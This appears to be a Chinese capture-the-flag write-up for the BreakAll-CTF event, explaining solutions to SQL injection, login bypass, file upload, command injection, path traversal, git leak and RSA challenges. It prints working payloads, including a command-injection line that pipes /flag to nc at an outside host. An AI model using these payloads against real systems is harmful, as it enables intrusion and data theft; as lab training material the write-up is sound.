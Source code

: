# BreakAll-CTF

有些misc的script隨便寫寫，解完就忘記丟哪了，所以沒放上來

如果有找到會再補上

## EasyPeasy

單純的Union Based MySQL Injection

`id = 1 and 1 = 2 union select 1, 2, 3`

`id = 1 and 1 = 2 union select 1, 2, group_concat(schema_name) from information_schema.schemata`

`id = 1 and 1 = 2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='fl4g'`

`id = 1 and 1 = 2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='secret'`

`id = 1 and 1 = 2 union select 1, 2, THIS_IS_FLAG_YO from fl4g.secret`


## EasyPeasy2

只是把回顯關掉

但是有True / False

所以可以用Boolean Based SQL Injection

比較意外的是這題其實可以用SQLmap，但解出來的人居然不多XD


## four-char-inj 

這題的話其實就是考MySQL的觀念

MySQL有點weak type的味道

所以`/?user='|0%23`就能過了，pass用不到

因為`'字串' | 0` 會變成0，所以整句變成`WHERE username=0`

所以假設DB中的username是`admin`，那這個條件就會成立 (類似PHP)

另外這題解答不唯一

還可以`/?user='=0%23`, `/?user='^0%23`等


## sh3ll_upload3r

這題就很單純，能上傳的內容基本上不能變，也繞不過

但他有擋副檔名，不能出現`h`

所以其實就是要考Apache解析漏洞

上傳`shell.php.abc`

再去訪問`/upload/shell.php.abc`就會跑這隻腳本惹


## youtube_viewer

這題居然沒人解XDDD

這題是某場CTF的題目改編的


因為沒有Source Code，也沒有回顯

加上題目說後端會去下載/查看youtube image

所以可以猜測可能背後是用curl或wget之類的command

(一般人很容易往XSS, SQLinj, SSRF...等方向想，但都不會想到可能是Command Injection XD)

他還提示我們多踹一些Payload，所以可以猜測應該不是常見的情境

試試常用的幾個：`&& sleep 10`, `| sleep 10`, ... 都無法

最後試: `';sleep 10;'`

OK，成功了

所以猜測他背後應該是長這樣：`system("curl 'https://youtube.com/xxxx/$myinput'")`

但沒有回險，所以我們要把資料傳出來

可以這樣：`';cat /flag | base64 | nc ctf.kaibro.tw 5566;'`

## easy_lfi

這題會把`../`砍掉

所以只要改用`....//`，就會被取代成原本的`../`

`....//....//....//....//....//....//....//flag`

## git leak

就跟題目名字一樣

單純的git還原

就看得到FLAG惹XD


## RSA 後門 (1)

題目給了`d^2*e + 7phi`

又知`c = m^e`

所以`c^(d^2*e+7phi)%n = m^(d^2*e^2+7*phi*e)%n = m`

---

